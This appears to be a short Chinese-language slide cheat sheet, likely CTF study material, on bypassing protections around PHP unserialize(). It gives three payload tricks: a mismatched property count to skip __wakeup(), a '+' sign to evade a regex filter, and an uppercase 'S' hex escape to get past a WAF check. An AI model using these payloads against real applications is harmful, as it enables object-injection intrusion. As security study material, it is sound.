

反序列化绕过trick
1、绕过__wakeup()
var_dump(unserialize('O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}'));
修改类中的成员的数量，使之与实际数量不一致

2、绕过正则
if (preg_match('/[oc]:\d+:/i', $var)) {
        die('stop hacking!');
    }
O:+6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}')
在前面添加一个加号就可以了

3、编码绕过
// 未作处理前，会被waf拦截
$a = 'O:4:"test":1:{s:8:"username";s:5:"admin";}';
$a = check($a);
unserialize($a);
// 将小s改为大S; 做处理后 \75是u的16进制， 成功绕过
$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';
$a = check($a);
unserialize($a);